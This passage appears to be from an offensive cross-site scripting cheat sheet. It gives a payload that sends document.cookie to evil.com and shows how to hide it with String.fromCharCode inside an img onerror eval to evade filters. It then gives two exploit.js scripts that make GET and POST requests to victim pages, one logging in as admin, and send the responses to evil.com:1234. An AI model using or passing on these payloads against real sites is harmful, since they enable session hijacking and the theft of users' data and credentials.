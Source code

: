 ### Charcode & Eval

We can use charcode (we can generate easily in CiberChef with the Base10 option) of the payload as below.

```bash
fetch("http://evil.com/"+document.cookie);

# Charcode (Base10): 102,101,116,99,104,40,34,104,116,116,112,58,47,47,101,118,105,108,46,99,111,109,47,34,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,59
```

Then create **`eval`** function to use it.

```bash
<img src=x onerror="eval(String.fromCharCode(102,101,116,99,104,40,34,104,116,116,112,58,47,47,101,118,105,108,46,99,111,109,47,34,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,59))">
```

<br />

## Interact with Another Host via XML HTTP Request

We might be able to send request the another host and retrieve the response.  
First, create a JavaScript file named **`exploit.js`** here. Replace **`http://evil.com`** with your local ip address.  
By this script, we send a request to **`http://sub.victim.com`** then fetch the response from the host.

- **GET Request**

```jsx
// exploit.js
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = () => {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        var xhr_exfil = new XMLHttpRequest();
        xhr_exfil.open('POST', "http://evil.com:1234/", false);
        xhr_exfil.send(xhr.response);
    }
};
xhr.open('GET', "http://victim.com/index.php", false);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send();
```

- **POST Request**

```jsx
// exploit.js
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = () => {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        var xhr_exfil = new XMLHttpRequest();
        xhr_exfil.open('POST', "http://evil.com:1234/", false);
        xhr_exfil.send(xhr.response);
    }
};
xhr.open('POST', "http://victim.com/login.php", false);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send("username=admin&password=admin");
```
